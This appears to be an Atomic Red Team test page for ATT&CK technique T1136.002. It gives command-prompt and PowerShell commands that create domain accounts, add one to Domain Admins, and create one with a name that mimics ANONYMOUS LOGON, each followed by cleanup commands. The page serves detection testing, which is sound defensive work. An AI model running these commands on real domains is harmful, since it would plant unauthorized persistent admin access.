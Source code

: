 # T1136.002 - Domain Account
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1136/002)
<blockquote>Adversaries may create a domain account to maintain access to victim systems. Domain accounts are those managed by Active Directory Domain Services where access and permissions are configured across systems and services that are part of that domain. Domain accounts can cover user, administrator, and service accounts. With a sufficient level of access, the <code>net user /add /domain</code> command can be used to create a domain account.

Such accounts may be used to establish secondary credentialed access that do not require persistent remote access tools to be deployed on the system.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create a new Windows domain admin user](#atomic-test-1---create-a-new-windows-domain-admin-user)

- [Atomic Test #2 - Create a new account similar to ANONYMOUS LOGON](#atomic-test-2---create-a-new-account-similar-to-anonymous-logon)

- [Atomic Test #3 - Create a new Domain Account using PowerShell](#atomic-test-3---create-a-new-domain-account-using-powershell)


<br/>

## Atomic Test #1 - Create a new Windows domain admin user
Creates a new domain admin user in a command prompt.

**Supported Platforms:** Windows


**auto_generated_guid:** fcec2963-9951-4173-9bfa-98d8b7834e62





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Username of the user to create | String | T1136.002_Admin|
| password | Password of the user to create | String | T1136_pass123!|
| group | Domain administrator group to which add the user to | String | Domain Admins|


#### Attack Commands: Run with `command_prompt`! 


```cmd
net user "#{username}" "#{password}" /add /domain
net group "#{group}" "#{username}" /add /domain
```

#### Cleanup Commands:
```cmd
net user "#{username}" >nul 2>&1 /del /domain
```





<br/>
<br/>

## Atomic Test #2 - Create a new account similar to ANONYMOUS LOGON
Create a new account similar to ANONYMOUS LOGON in a command prompt.

**Supported Platforms:** Windows


**auto_generated_guid:** dc7726d2-8ccb-4cc6-af22-0d5afb53a548





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Username of the user to create | String | ANONYMOUS  LOGON|
| password | Password of the user to create | String | T1136_pass123!|


#### Attack Commands: Run with `command_prompt`! 


```cmd
net user "#{username}" "#{password}" /add /domain
```

#### Cleanup Commands:
```cmd
net user "#{username}" >nul 2>&1 /del /domain
```





<br/>
<br/>

## Atomic Test #3 - Create a new Domain Account using PowerShell
Creates a new Domain User using the credentials of the Current User

**Supported Platforms:** Windows


**auto_generated_guid:** 5a3497a4-1568-4663-b12a-d4a5ed70c7d7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Name of the Account to be created | String | T1136.002_Admin|
| password | Password of the Account to be created | String | T1136_pass123!|


#### Attack Commands: Run with `powershell`! 


```powershell
$SamAccountName = '#{username}'
$AccountPassword = ConvertTo-SecureString '#{password}' -AsPlainText -Force
Add-Type -AssemblyName System.DirectoryServices.AccountManagement
$Context = New-Object -TypeName System.DirectoryServices.AccountManagement.PrincipalContext -ArgumentList ([System.DirectoryServices.AccountManagement.ContextType]::Domain)
$User = New-Object -TypeName System.DirectoryServices.AccountManagement.UserPrincipal -ArgumentList ($Context)
$User.SamAccountName = $SamAccountName
$TempCred = New-Object System.Management.Automation.PSCredential('a', $AccountPassword)
$User.SetPassword($TempCred.GetNetworkCredential().Password)
$User.Enabled = $True
$User.PasswordNotRequired = $False
$User.DisplayName = $SamAccountName
$User.Save()
$User
```

#### Cleanup Commands:
```powershell
net user "#{username}" >nul 2>&1 /del /domain
```





<br/>
